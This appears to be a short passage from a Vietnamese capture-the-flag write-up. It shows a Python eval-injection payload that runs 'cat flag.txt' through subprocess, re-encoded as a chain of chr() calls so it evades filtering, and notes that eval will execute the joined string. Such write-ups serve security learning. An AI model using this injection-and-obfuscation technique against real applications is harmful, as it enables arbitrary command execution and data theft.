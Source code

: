 payload:
`__import__('subprocess').getoutput('cat flag.txt')`
Nhưng chuyển sang dạng chr 
```
chr(95)+chr(95)+chr(105)+chr(109)+chr(112)+chr(111)+chr(114)+chr(116)+chr(95)+chr(95)+chr(40)+chr(39)+chr(115)+chr(117)+chr(98)+chr(112)+chr(114)+chr(111)+chr(99)+chr(101)+chr(115)+chr(115)+chr(39)+chr(41)+chr(46)+chr(103)+chr(101)+chr(116)+chr(111)+chr(117)+chr(116)+chr(112)+chr(117)+chr(116)+chr(40)+chr(39)+chr(99)+chr(97)+chr(116)+chr(32)+chr(102)+chr(108)+chr(97)+chr(103)+chr(46)+chr(116)+chr(120)+chr(116)+chr(39)+chr(41)
```
Vì hàm eval là hàm thực thi nên ta hoàn toan có thế ghép chúng lại thành một chuỗi
![alt text](image.png)